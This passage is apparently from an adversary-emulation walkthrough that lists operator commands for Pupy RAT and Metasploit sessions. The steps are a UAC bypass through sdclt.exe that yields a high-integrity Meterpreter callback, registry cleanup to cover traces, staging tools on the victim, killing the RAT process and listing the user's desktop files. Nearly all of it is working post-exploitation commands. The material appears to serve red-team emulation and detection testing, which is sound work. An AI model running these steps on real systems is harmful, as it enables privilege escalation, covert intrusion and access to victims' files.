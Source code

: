 **When prompted for value, press: [Enter]**

[pupy (PowerShell)] > `exit`
[pupy (CMD)] > `%windir%\system32\sdclt.exe`
[pupy CMD] > `powershell`

You should receive a high integrity Meterpreter callback.

#### 3.C

[pupy (PowerShell)] > `Remove-Item -Path HKCU:\Software\Classes\Folder* -Recurse -Force`
[pupy (PowerShell)] > `exit`
[pupy (CMD)] > `exit`

### Step 4 - Defense Evasion and Discovery

#### 4.A

From Metasploit:

[msf] > `sessions`
[msf] > `sessions -i 1`

[meterpreter\*] >

```
upload SysinternalsSuite.zip "C:\\Users\\username\\Downloads\\SysinternalsSuite.zip"
```

[meterpreter\*] > `execute -f powershell.exe -i -H`

[meterpreter (PowerShell)\*] >

```
Expand-Archive -LiteralPath "$env:USERPROFILE\Downloads\SysinternalsSuite.zip" -DestinationPath "$env:USERPROFILE\Downloads\"
```

[meterpreter (PowerShell)\*] >

```
if (-Not (Test-Path -Path "C:\Program Files\SysinternalsSuite")) { Move-Item -Path $env:USERPROFILE\Downloads\SysinternalsSuite -Destination "C:\Program Files\SysinternalsSuite" }
```

[meterpreter (PowerShell)\*] > `cd "C:\Program Files\SysinternalsSuite\"`

#### 4.B

Terminate Pupy RAT process:

[meterpreter (PowerShell)\*] > `Get-Process`

[meterpreter (PowerShell)\*] > `Stop-Process -Id <rcs.3aka3.doc PID> -Force`

You may now close Pupy.

From Metasploit:

[meterpreter (PowerShell)\*] > `Gci $env:userprofile\Desktop`
